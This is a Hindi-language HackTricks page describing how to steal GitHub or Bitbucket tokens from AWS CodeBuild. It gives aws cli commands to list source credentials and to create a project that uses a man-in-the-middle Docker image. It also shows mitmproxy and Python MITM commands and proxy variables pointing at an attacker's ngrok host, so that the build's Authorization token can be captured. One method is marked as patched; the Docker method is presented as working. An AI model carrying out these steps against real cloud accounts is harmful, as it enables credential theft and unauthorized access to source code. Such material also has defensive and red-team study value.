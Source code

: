 # AWS Codebuild - टोकन लीकेज

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन्स की रिकवरी

सबसे पहले, जांचें कि क्या कोई सोर्स क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### डॉकर इमेज के माध्यम से

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **access** (**GH token या OAuth token**) को **exfiltrate** कर सकते हैं जिससे Codebuild को विशेष डॉकर इमेज का उपयोग करके प्रोजेक्ट का निर्माण चलाने के लिए बनाया जा सकता है।

इस उद्देश्य के लिए आप एक नया Codebuild प्रोजेक्ट **create** कर सकते हैं या मौजूदा के **environment** को बदलकर **Docker image** सेट कर सकते हैं।

आप जिस Docker इमेज का उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker इमेज है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। इससे आप **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफिक को इंटरसेप्ट कर सकते हैं और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा कर सकते हैं।

1. **अपनी खुद की Docker MitM इमेज बनाएं और अपलोड करें**
* रेपो के निर्देशों का पालन करें अपने प्रॉक्सी IP पते को सेट करने के लिए और अपने SSL सर्ट को सेट करें और **build the docker image**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे कि `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker इमेज बन जाए, तो इसे किसी सार्वजनिक रेपो (Dockerhub, ECR...) में **upload करें**।
2. **environment सेट करें**
* एक **नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा के environment को **modify** करें।
* प्रोजेक्ट को पहले से जनरेट की गई Docker इमेज का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* **Github रेपो** में बताए गए अनुसार आप कुछ इस तरह का उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy का इस्तेमाल किया गया संस्करण 9.0.1 था**, यह बताया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता है।
{% endhint %}

4. **निर्माण चलाएं और साख प्राप्त करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli के साथ भी किया जा सकता है जैसे कि

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरी AWS द्वारा 20 फरवरी 2023 के सप्ताह में किसी समय सही कर दी गई थी (मुझे लगता है शुक्रवार को)। इसलिए अब एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियां हैं, Github/Bitbucket टोकन को लीक कर सकता है** जो कॉन्फ़िगर किया गया है या अगर अनुमतियां OAuth के माध्यम से कॉन्फ़िगर की गई थीं, तो **कोड तक पहुंचने के लिए इस्तेमाल किया गया अस्थायी OAuth टोकन**।

* एक हमलावर CodeBuild प्रोजेक्ट में पर्यावरण चर **http\_proxy** और **https\_proxy** जोड़ सकता है जो उसकी मशीन की ओर इशारा करता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, github रेपो के URL को HTTP का उपयोग करने के लिए HTTPS के बजाय बदलें, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बेसिक उदाहरण चलाएं
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **Build the project** पर क्लिक करें, **credentials** स्पष्ट पाठ (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपनी मशीन से टोकन का उपयोग कर सकेगा, सभी अधिकारों की सूची बना सकेगा और CodeBuild सेवा का सीधे उपयोग करने से आसानी से (दुरुपयोग) कर सकेगा।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>
